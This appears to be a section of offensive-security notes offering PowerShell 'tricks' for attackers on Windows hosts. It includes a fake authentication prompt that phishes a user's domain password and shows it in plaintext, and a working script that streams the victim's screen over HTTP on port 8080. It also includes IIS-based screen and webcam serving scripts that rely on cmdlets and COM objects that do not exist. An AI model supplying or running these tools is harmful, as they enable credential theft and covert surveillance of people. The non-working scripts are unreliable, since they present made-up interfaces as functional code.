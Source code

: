 # Bonus Tricks

### Keylogger prompt

This is a neat trick that can be used during desperate times. It will spawn a UI prompt that will ask for the user's domain credentials using environment variables to pull the username, then display the password in plaintext to the attacker console. 

From a CMD.exe prompt:

```powershell 

"$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"


```

- from Sektor7 Privilege Escalation course

### Serving Display on HTTP

This script captures the content of the primary screen, converts it to a JPEG image, and serves it over an HTTP web server on port 8080. The script will continuously update the image and serve it as long as the HTTP listener is running.

```
Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName System.Drawing

$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add("http://0.0.0.0:8080/")
$listener.Start()

Write-Host "Streaming server is running on http://127.0.0.1:8080/"

while ($listener.IsListening) {
    $context = $listener.GetContext()
    $response = $context.Response

    $stream = $response.OutputStream
    $imageStream = New-Object System.IO.MemoryStream

    $bitmap = New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)
    $graphics = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphics.CopyFromScreen([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Location, [System.Drawing.Point]::Empty, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Size)

    $bitmap.Save($imageStream, [System.Drawing.Imaging.ImageFormat]::Jpeg)

    $response.ContentType = "image/jpeg"
    $response.ContentLength64 = $imageStream.Length

    $imageStream.WriteTo($stream)

    $imageStream.Dispose()
    $stream.Dispose()
}

$listener.Stop()

```

`Install-Module -Name WebAdministration`

```
# Import the Windows PowerShell Web Server module
Import-Module WebAdministration

# Define the path to your screen capture files
$screenCapturePath = "C:\Path\To\Screen\Capture"

# Start the screen capture
$job = Start-Process powershell.exe "-command & { Get-ChildItem -Path C:\Path\To\Screen\Capture -Filter '*.jpg' -Recurse | Remove-Item }" -PassThru
$job2 = Start-ScreenCapture -Path $screenCapturePath

# Set up the web server to serve the screen capture
New-WebVirtualDirectory -Site 'Default Web Site' -Name 'ScreenCapture' -PhysicalPath $screenCapturePath
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "enabled" -Value "True"
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "showFlags" -Value "Date, Time, Size, Extension"

# Set the web server to listen on port 8080
Set-ItemProperty -Path "IIS:\Sites\Default Web Site" -Name bindings -Value @{protocol="http";bindingInformation="*:8080:"}

```


## Serving Camera Feed on HTTP

This script does the following:

Imports the Windows PowerShell Web Server module.
Defines the path to your camera feed.
Starts the camera feed using the Windows Media Foundation APIs.
Sets up a virtual directory in the default web site that serves the camera feed.
Enables directory browsing and sets the directory browse flags.
Sets the web server to listen on port 8080.

```
# Import the Windows PowerShell Web Server module
Import-Module WebAdministration

# Define the path to your camera feed
$cameraFeedPath = "C:\Path\To\Camera\Feed"

# Start the camera feed
$mediaSource = New-Object -ComObject 'MFMediaSource'
$mediaSource.OpenDevice("Video", "Integrated Webcam", $null, [System.Guid]::Empty)

# Set up the web server to serve the camera feed
New-WebVirtualDirectory -Site 'Default Web Site' -Name 'CameraFeed' -PhysicalPath $cameraFeedPath
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "enabled" -Value "True"
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "showFlags" -Value "Date, Time, Size, Extension"

# Set the web server to listen on port 8080
Set-ItemProperty -Path "IIS:\Sites\Default Web Site" -Name bindings -Value @{protocol="http";bindingInformation="*:8080:"}

```
